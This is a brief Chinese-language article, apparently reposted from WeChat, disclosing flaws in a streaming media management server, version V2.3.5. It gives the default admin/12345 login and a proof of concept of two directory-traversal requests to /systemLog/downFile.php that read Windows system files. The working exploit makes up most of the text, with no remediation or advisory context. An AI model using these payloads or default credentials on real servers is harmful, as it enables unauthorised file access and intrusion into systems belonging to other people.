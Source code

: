 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/flM2K6iFtI_cg_26IjhakA)

流媒体管理服务器 V2.3.5

登录页面如下，默认账号密码为 admin/12345

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3fH767P9hHOt9HibHdq0pI11Y0hAQfQjGNCk7PydYdy09STzgxNkQ0hC7Zmk7wic4h1QgIKIVt2icYQ/640?wx_fmt=png)

POC

**/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini**

**/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../Windows/System32/drivers/etc/hosts**

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3fH767P9hHOt9HibHdq0pI1xIhgthbp3OSHBQm94DJDCtebWEcAib47L7ABf0O5briczFahO13kiaZwg/640?wx_fmt=png)